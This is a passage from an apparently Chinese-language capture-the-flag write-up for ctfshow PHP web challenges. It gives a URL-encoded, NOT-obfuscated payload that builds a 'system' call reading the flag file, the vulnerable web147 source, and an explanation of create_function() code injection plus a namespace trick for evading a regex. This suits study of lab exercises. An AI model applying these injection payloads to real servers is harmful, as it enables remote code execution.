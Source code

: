 payload:

```
?v1=1&v2=1&v3=|(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%D5)|
```



#### web147

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-19 02:04:38

*/



highlight_file(__FILE__);

if(isset($_POST['ctf'])){
    $ctfshow = $_POST['ctf'];
    if(!preg_match('/^[a-z0-9_]*$/isD',$ctfshow)) {
        $ctfshow('',$_GET['show']);
    }

}
```

create_function()代码注入

如果我们第二个参数传入 echo 1;}phpinfo();//
就等价于

```
function f($a) {
  echo 1;}phpinfo();//
}
从而执行phpinfo()命令
```

那要怎么绕过正则表达式呢

```
/^[a-z0-9_]*$/isD
```

这个正则表达式匹配所有的字母数字和下划线

而且由于

> php里默认命名空间是\，所有原生函数和类都在这个命名空间中。 普通调用一个函数，如果直接写函数名function_name()调用，调用的时候其实相当于写了一个相对路径； 而如果写\function_name()这样调用函数，则其实是写了一个绝对路径。 如果你在其他namespace里调用系统类，就必须写绝对路径这种写法
